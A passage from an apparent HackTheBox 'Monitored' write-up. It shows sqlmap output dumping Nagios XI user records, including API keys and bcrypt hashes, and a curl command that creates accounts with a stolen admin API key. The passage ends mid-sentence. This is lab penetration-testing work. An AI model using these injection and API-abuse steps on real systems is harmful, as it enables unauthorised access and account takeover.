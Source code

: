 ```bash
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[22:38:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:38:20] [WARNING] reflective value(s) found and filtering out
[...snip...]
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1705449034   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 8              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```

And we found the administrator's API key and password. Using [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) we can see that the password is using bcrypt hash. I've tried to find a match with John The Ripper, but with no success. So this got me thinking... Maybe we can use the administrator API key to create another admin account within Nagios XI, then log in with it.
Again, with a bit research, we can find [this](https://support.nagios.com/forum/viewtopic.php?f=16&t=42923) topic, where it says
we can create an accout with this cURL command `curl -XPOST "http://x.x.x.x/nagiosxi/api/v1/system/user?apikey=LTltbjobR0X3V5ViDIitYaI8hjsjoFBaOcWYukamF7oAsD8lhJRvSPWq8I3PjTf7&pretty=1" -d "username=jmcdouglas&password=test&name=Jordan%20McDouglas&email=jmcdouglas@localhost"`. However, this will create a normal user. We need an admin user. Then, I found (this)[https://www.exploit-db.com/exploits/44969] on exploit-db, which is a completely different exploit, but has these lines:
